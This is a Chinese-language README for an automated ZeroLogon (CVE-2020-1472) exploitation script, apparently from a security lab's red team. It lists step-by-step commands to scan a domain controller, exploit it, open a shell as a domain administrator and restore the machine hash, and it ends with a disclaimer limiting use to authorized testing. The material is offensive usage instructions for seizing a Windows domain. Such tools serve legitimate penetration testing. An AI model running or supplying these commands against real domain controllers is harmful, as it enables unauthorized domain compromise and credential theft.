 # Auto ZeroLogon script

## 简介与使用

Zerologon自动化脚本，使用方式如下：

```
1.扫描
python AutoZerologon.py dc_ip -scan
```

![scan](./img/scan.png)

```
2.漏洞利用
python AutoZerologon.py dc_ip -exp
python AutoZerologon.py dc_ip -exp -user domain_admins
利用完成后自动恢复域控机器hash，默认使用Administrator，可-user指定域管，假如Administrator不存在则会连接ldap查询未禁用的域管账号进行恢复
```

![exp](./img/exp.png)

```
3.登录域控
python AutoZerologon.py dc_ip -shell
python AutoZerologon.py dc_ip -shell -user domain_admins
默认使用Administrator，可-user指定域管，假如Administrator不存在则会连接ldap查询未禁用的域管账号进行登录
```

![shell](./img/shell.png)

```
4.手动恢复域控机器hash，防止利用过程中程序中断
python AutoZerologon.py dc_ip -recovery -user domain_admins -hashes aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b
```

![recovery](./img/recovery.png)

其他注意事项：

5.假如smb没有识别出机器名及域名，则需指定-dcname、-domain

**6.若在exp利用中断，及时使用-recovery恢复域控机器hash，以免造成脱域！！！**

## 参考链接
https://github.com/dirkjanm/CVE-2020-1472

https://github.com/SecureAuthCorp/impacket

## 免责声明

本工具仅面向**合法授权**的企业安全建设行为，如您需要测试本工具的可用性，请自行搭建靶机环境。

在使用本工具进行检测时，您应确保该行为符合当地的法律法规，并且已经取得了足够的授权。**请勿对非授权目标进行扫描和攻击。**

**如您在使用本工具的过程中存在任何非法行为，您需自行承担相应后果，作者将不承担任何法律及连带责任。**

在安装并使用本工具前，请您**务必审慎阅读、充分理解各条款内容**，限制、免责条款或者其他涉及您重大权益的条款可能会以加粗、加下划线等形式提示您重点注意。 除非您已充分阅读、完全理解并接受本协议所有条款，否则，请您不要安装并使用本工具。您的使用行为或者您以其他任何明示或者默示方式表示接受本协议的，即视为您已阅读并同意本协议的约束。

# 安恒-星火实验室

<h1 align="center">
  <img src="img/starfile.jpeg" alt="starfile" width="200px">
  <br>
</h1>
专注于实战攻防与研究，研究涉及实战攻防、威胁情报、攻击模拟与威胁分析等，团队成员均来自行业具备多年实战攻防经验的红队、蓝队和紫队专家。本着以攻促防的核心理念，通过落地 ATT&CK 攻防全景知识库，全面构建实战化、常态化、体系化的企业安全建设与运营。
